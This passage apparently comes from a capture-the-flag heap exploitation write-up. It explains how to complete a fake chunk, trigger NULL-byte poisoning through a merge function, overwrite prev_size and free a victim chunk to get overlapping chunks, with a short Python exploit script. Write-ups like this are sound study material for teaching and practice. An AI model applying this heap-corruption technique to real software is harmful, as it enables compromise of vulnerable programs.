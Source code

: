 ![Completed fake chunk](./writeup/completed_fake_chunk.png)

As we can see all the pointers now match up correctly, this means that we will
be able to bypass the checks on the unlinking of the fake chunk.  
Now all that is left to do is to trigger the vulnerability.

#### Triggering the vulnerability

First of all lets reallocate the hole left by the _extra barrier chunk_ with a
chunk we will use to merge with the _vuln chunk_.
Then we'll use the merging functionality to trigger the NULL poisoning.
Once this is done we simply need to edit the _vuln chunk_ to set the `prev_size`
field of the _victim chunk_ to the size of the _fake chunk_, and then we free
the _victim chunk_ to obtain the overlapping chunk.

```python
# Reclaim extra barrier chunk with data to be merged
add(0x428, b"V"*0x200, b"META_MERGE")       # idx: 6
# Merge it with vuln to trigger the NULL poisoning
merge(4, 6)

# Set prev_size on victim
payload = b"VULN".ljust(0x420, b"\0")
payload += p64(0xc90)                       # Fake size
edit(4, payload)

# Free victim to obtain a overlapping chunk
delete(1)
```
